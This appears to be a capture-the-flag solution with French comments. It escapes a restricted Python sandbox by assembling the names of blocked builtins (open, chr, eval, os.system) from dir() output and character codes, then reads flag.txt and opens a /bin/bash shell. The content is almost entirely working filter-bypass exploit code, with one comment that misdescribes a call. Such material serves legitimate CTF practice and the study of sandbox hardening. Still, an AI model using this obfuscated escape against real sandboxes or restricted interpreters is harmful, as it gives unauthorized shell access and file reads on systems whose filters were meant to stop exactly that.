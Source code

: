 # Lire le flag :

opn = dir()[1][5] + dir()[8][2] + dir()[3][6] + dir()[1][3] # => opn = "open"
flag = dir()[5][2] + dir()[0][3] + dir()[0][1] + dir()[8][7] # => flag = "flag"
txt = dir()[1][6] + dir()[11][1] + dir()[1][6] # => txt = "txt"
rhc = dir()[3][2] + dir()[3][5] + dir()[6][7] # => rhc = "chr"
read = dir()[6][7] + dir()[3][6] + dir()[0][1] + dir()[3][7] # => read = "read"
dot = getattr(__builtins__, rhc)(46) # => dot = "."
full_flag = flag + dot + txt # => full_flag = "flag.txt"
var1 = getattr(__builtins__, opn)(full_flag) # => var1 = open("flag.txt")
print(getattr(var1, read)()) # => print(var1.read())

# Ouvrir un shell :

rhc = dir()[3][2] + dir()[3][5] + dir()[6][7] # => rhc = "chr"
new_crh = getattr(__builtins__, rhc) # => new_crh = chr()
eva = new_crh(101) + new_crh(118) + new_crh(97) + new_crh(108) # => eva = "eval"
new_eva = getattr(__builtins__, eva) # => new_eva = eval()
shell = new_crh(47) + new_crh(98) + new_crh(105) + new_crh(110) + new_crh(47) + new_crh(98) + new_crh(97) + new_crh(115) + new_crh(104) # => shell = "/bin/bash"
syo = new_crh(111) + new_crh(115) + new_crh(46) + new_crh(115) + new_crh(121) + new_crh(115) + new_crh(116) + new_crh(101) + new_crh(109) # => syo = "os.system"
new_eva(syo)(shell) # => eval(os.system("/bin/bash"))
